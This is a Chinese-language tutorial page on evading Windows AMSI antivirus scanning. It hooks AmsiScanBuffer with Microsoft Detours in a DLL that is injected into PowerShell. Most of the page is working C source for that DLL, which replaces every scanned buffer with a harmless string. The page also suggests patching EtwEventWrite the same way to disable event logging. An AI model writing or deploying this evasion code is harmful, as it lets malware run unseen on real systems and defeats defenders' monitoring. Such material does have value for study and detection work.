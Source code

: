 # 基于API Hook和DLL注入的AMSI绕过

## 简介

前面我们有详细的介绍过AMSI的原理和基于内存补丁的绕过方法，这次我们介绍一种略微复杂的方法，同时这种方法也可以应用于各种场景，前面我们有介绍过通过微软开源库[Detours](../persistence/detous-inline-hook.md)的inLineHook和[进程注入](../code-and-dll-process-injection/createremotethread.md)的dll注入，这次我们把这两种技术做一个组合，来实现amsi的绕过，同样的思路也可以对 EtwEventWrite进行修补，使其丧失记录日志能力。

## 流程

1. 编写一个hook AmsiScanBuffer的dll
2. 使用[dll注入](../code-and-dll-process-injection/createremotethread.md#42-dll-zhu-ru)进powershell进程
3. 完成绕过

## 代码

dll注入的代码延用[CreateRemoteThrea](../code-and-dll-process-injection/createremotethread.md)的代码。

```text
#include <Windows.h>
#include <stdio.h>
#include <amsi.h>
#include "include/detours.h"
#pragma comment(lib, "amsi.lib")
#pragma comment(lib,"lib.X64/detours.lib")

#define SafeString "SafeString"

static HRESULT(WINAPI* _AmsiScanBuffer)(
    HAMSICONTEXT amsiContext,
    PVOID        buffer,
    ULONG        length,
    LPCWSTR      contentName,
    HAMSISESSION amsiSession,
    AMSI_RESULT* result
    ) = AmsiScanBuffer;

HRESULT WINAPI AmsiScanBuffer_(
    HAMSICONTEXT amsiContext,
    PVOID        buffer,
    ULONG        length,
    LPCWSTR      contentName,
    HAMSISESSION amsiSession,
    AMSI_RESULT* result
) 
{
    return _AmsiScanBuffer(amsiContext, (BYTE*)SafeString, length, contentName, amsiSession, result);
}


BOOL APIENTRY DllMain(HANDLE hModule, DWORD ul_reason_for_call, LPVOID lpReserved)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        DetourTransactionBegin();
        DetourUpdateThread(GetCurrentThread());
        DetourAttach(&(PVOID&)_AmsiScanBuffer, AmsiScanBuffer_);
        DetourTransactionCommit();
        printf("hook ok\n");
        break;
    case DLL_THREAD_ATTACH:
        break;
    case DLL_THREAD_DETACH:
        break;
    case DLL_PROCESS_DETACH:
        DetourTransactionBegin();
        DetourUpdateThread(GetCurrentThread());
        DetourDetach(&(PVOID&)_AmsiScanBuffer, AmsiScanBuffer_);
        DetourTransactionCommit();
        break;
    }
    return TRUE;

}
```

